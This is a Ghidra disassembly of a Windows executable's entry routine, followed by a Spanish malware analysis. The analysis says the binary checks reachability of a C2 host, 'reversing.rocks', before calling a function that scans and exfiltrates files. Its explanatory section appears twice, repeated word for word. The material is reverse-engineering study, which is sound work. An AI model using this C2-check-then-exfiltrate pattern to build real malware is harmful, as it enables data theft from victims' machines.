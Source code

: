 ```

                             **************************************************************
                             *                          FUNCTION                          *
                             **************************************************************
                             undefined __stdcall FUN_004011a0(void)
                               assume FS_OFFSET = 0xffdff000
             undefined         <UNASSIGNED>   <RETURN>
                             FUN_004011a0                                    XREF[1]:     ___tmainCRTStartup:004013c5(c)
        004011a0 6a 00           PUSH       0x0
        004011a2 6a 01           PUSH       0x1
        004011a4 68 2c 21        PUSH       s_http://reversing.rocks/_0040212c               = "http://reversing.rocks/"
                 40 00
        004011a9 ff 15 ac        CALL       dword ptr [->WININET.DLL::InternetCheckConnect   = 0000239e
                 20 40 00
        004011af 85 c0           TEST       EAX,EAX
        004011b1 74 0d           JZ         LAB_004011c0
        004011b3 e8 78 ff        CALL       FUN_00401130                                     undefined4 FUN_00401130(void)
                 ff ff
        004011b8 6a 00           PUSH       0x0
        004011ba ff 15 34        CALL       dword ptr [->MSVCR120.DLL::exit]                 = 000023fe
                 20 40 00
                             -- Flow Override: CALL_RETURN (COMPUTED_CALL_TERMINATOR)
                             LAB_004011c0                                    XREF[1]:     004011b1(j)
        004011c0 6a 01           PUSH       0x1
        004011c2 ff 15 34        CALL       dword ptr [->MSVCR120.DLL::exit]                 = 000023fe
                 20 40 00
                             -- Flow Override: CALL_RETURN (COMPUTED_CALL_TERMINATOR)
             assume FS_OFFSET = <UNKNOWN>
        004011c8 cc              ??         CCh
             assume FS_OFFSET = 0xffdff000
                             LAB_004011c9                                    XREF[1]:     004020d4(*)
        004011c9 b8 4d 5a        MOV        EAX,0x5a4d
                 00 00
        004011ce 66 39 05        CMP        word ptr [IMAGE_DOS_HEADER_00400000],AX
                 00 00 40 00
        004011d5 74 04           JZ         LAB_004011db
                             LAB_004011d7                                    XREF[2]:     004011eb(j), 004011f9(j)
        004011d7 33 c0           XOR        EAX,EAX
        004011d9 eb 34           JMP        LAB_0040120f
                             LAB_004011db                                    XREF[1]:     004011d5(j)
        004011db 8b 0d 3c        MOV        ECX,dword ptr [IMAGE_DOS_HEADER_00400000.e_lfa
                 00 40 00
        004011e1 81 b9 00        CMP        dword ptr [ECX + 0x400000]=>IMAGE_NT_HEADERS32
                 00 40 00
                 50 45 00 00
        004011eb 75 ea           JNZ        LAB_004011d7
        004011ed b8 0b 01        MOV        EAX,0x10b
                 00 00
        004011f2 66 39 81        CMP        word ptr [ECX + 0x400018]=>IMAGE_NT_HEADERS32_
                 18 00 40 00
        004011f9 75 dc           JNZ        LAB_004011d7
        004011fb 33 c0           XOR        EAX,EAX
        004011fd 83 b9 74        CMP        dword ptr [ECX + 0x400074]=>IMAGE_NT_HEADERS32
                 00 40 00 0e
        00401204 76 09           JBE        LAB_0040120f
        00401206 39 81 e8        CMP        dword ptr [ECX + 0x4000e8]=>IMAGE_NT_HEADERS32
                 00 40 00
        0040120c 0f 95 c0        SETNZ      AL
                             LAB_0040120f                                    XREF[2]:     004011d9(j), 00401204(j)
        0040120f 6a 01           PUSH       0x1
        00401211 a3 30 30        MOV        [DAT_00403030],EAX
                 40 00
        00401216 ff 15 44        CALL       dword ptr [->MSVCR120.DLL::__set_app_type]       = 00002440
                 20 40 00
        0040121c 59              POP        ECX
        0040121d 6a ff           PUSH       -0x1
        0040121f ff 15 24        CALL       dword ptr [->KERNEL32.DLL::EncodePointer]        = 000025be
                 20 40 00
        00401225 8b 0d 64        MOV        ECX,dword ptr [->MSVCR120.DLL::_fmode]           = 000024b4
                 20 40 00
        0040122b a3 80 33        MOV        [DAT_00403380],EAX
                 40 00
        00401230 a3 84 33        MOV        [DAT_00403384],EAX
                 40 00
        00401235 a1 54 30        MOV        EAX,[DAT_00403054]
                 40 00
        0040123a 89 01           MOV        dword ptr [ECX],EAX
        0040123c 8b 0d 68        MOV        ECX,dword ptr [->MSVCR120.DLL::_commode]         = 000024be
                 20 40 00
        00401242 a1 48 30        MOV        EAX,[DAT_00403048]
                 40 00
        00401247 89 01           MOV        dword ptr [ECX],EAX
        00401249 e8 29 05        CALL       FUN_00401777                                     undefined FUN_00401777(void)
                 00 00
        0040124e e8 45 02        CALL       FUN_00401498                                     undefined4 FUN_00401498(void)
                 00 00
        00401253 83 3d 00        CMP        dword ptr [DAT_00403000],0x0                     = 00000001h
                 30 40 00 00
        0040125a 75 0c           JNZ        LAB_00401268
        0040125c 68 98 14        PUSH       FUN_00401498
                 40 00
        00401261 ff 15 54        CALL       dword ptr [->MSVCR120.DLL::__setusermatherr]     = 0000247a
                 20 40 00
        00401267 59              POP        ECX
                             LAB_00401268                                    XREF[1]:     0040125a(j)
        00401268 e8 4a 05        CALL       FUN_004017b7                                     undefined FUN_004017b7(void)
                 00 00
        0040126d 83 3d 10        CMP        dword ptr [DAT_00403010],-0x1                    = FFFFFFFEh
                 30 40 00 ff
        00401274 75 09           JNZ        LAB_0040127f
        00401276 6a ff           PUSH       -0x1
        00401278 ff 15 50        CALL       dword ptr [->MSVCR120.DLL::_configthreadlocale]  = 00002464
                 20 40 00
        0040127e 59              POP        ECX
                             LAB_0040127f                                    XREF[1]:     00401274(j)
        0040127f 33 c0           XOR        EAX,EAX
        00401281 c3              RET
        00401282 68              ??         68h    h
        00401283 97              ??         97h                                              ?  ->  00401797
        00401284 17              ??         17h
        00401285 40              ??         40h    @
        00401286 00              ??         00h
        00401287 e8              ??         E8h
        00401288 d6              ??         D6h
        00401289 04              ??         04h
        0040128a 00              ??         00h
        0040128b 00              ??         00h
        0040128c a1              ??         A1h
        0040128d 50              ??         50h    P                                         ?  ->  00403050

```
La función FUN_004011a0 es el punto de entrada principal del malware, referenciada desde ___tmainCRTStartup. Su función es comprobar la conectividad a internet y ejecutar la lógica maliciosa principal si la conexión con el C2 (Command & Control) está activa.
🧠 RESUMEN DEL COMPORTAMIENTO
Paso	Acción
1️⃣	Comprueba si hay conexión con http://reversing.rocks/ usando InternetCheckConnectionA.
2️⃣	Si hay conexión, llama a FUN_00401130 (que inicializa WinINet y lanza la exfiltración de datos).
3️⃣	Si no hay conexión, termina el proceso con exit(1).

🔍 ANÁLISIS DETALLADO
🔹 1. Comprobación de conexión a Internet

004011a4 PUSH s_http://reversing.rocks
004011a9 CALL [InternetCheckConnectionA]
004011af TEST EAX,EAX
004011b1 JZ LAB_004011c0

    Usa InternetCheckConnectionA para comprobar si el dominio C2 (reversing.rocks) es accesible.

    Si no hay conexión (EAX = 0), salta a exit(1).

🔹 2. Ejecución del payload si hay conexión

004011b3 CALL FUN_00401130

Ya analizada, esta función:

    Llama a InternetOpenA, InternetConnectA

    Inicia comunicación con el servidor remoto

    Llama a FUN_00401000 → escaneo y exfiltración de archivos

🔹 3. Finalización del proceso

004011ba CALL [exit]

    Llama a exit(0) si tuvo éxito

    O a exit(1) si falló
    
🔍 ANÁLISIS DETALLADO
🔹 1. Comprobación de conexión a Internet

004011a4 PUSH s_http://reversing.rocks
004011a9 CALL [InternetCheckConnectionA]
004011af TEST EAX,EAX
004011b1 JZ LAB_004011c0

    Usa InternetCheckConnectionA para comprobar si el dominio C2 (reversing.rocks) es accesible.

    Si no hay conexión (EAX = 0), salta a exit(1).

🔹 2. Ejecución del payload si hay conexión

004011b3 CALL FUN_00401130

Ya analizada, esta función:

    Llama a InternetOpenA, InternetConnectA

    Inicia comunicación con el servidor remoto

    Llama a FUN_00401000 → escaneo y exfiltración de archivos

🔹 3. Finalización del proceso

004011ba CALL [exit]

    Llama a exit(0) si tuvo éxito

    O a exit(1) si falló
